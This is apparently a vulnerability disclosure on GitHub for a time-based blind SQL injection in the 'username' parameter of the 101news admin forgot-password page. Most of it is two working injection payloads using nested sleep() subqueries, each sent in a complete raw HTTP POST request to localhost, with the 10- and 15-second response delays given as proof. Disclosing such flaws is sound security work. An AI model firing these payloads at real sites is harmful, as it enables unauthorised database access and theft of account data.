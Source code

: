 BUG_Author:PEOIzEve

Vulnerability File: /101news/admin/forgot-password.php

POST parameter 'username' exists SQL injection vulnerability

Payload1:username=a' and (select 1 from (select(sleep(10)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=

```
POST /101news/admin/forgot-password.php HTTP/1.1
Host: localhost
Content-Length: 111
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/101news/admin/forgot-password.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close

username=a' and (select 1 from (select(sleep(10)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=
```

The server's response time is 10 seconds

![image](https://github.com/PEOIzEve/bug_report/blob/main/sql1.png)

Payload2:username=a' and (select 1 from (select(sleep(15)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=

```
POST /101news/admin/forgot-password.php HTTP/1.1
Host: localhost
Content-Length: 111
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/101news/admin/forgot-password.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close

username=a' and (select 1 from (select(sleep(15)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=
```

The server's response time is 15 seconds

![image](https://github.com/PEOIzEve/bug_report/blob/main/sql2.png)
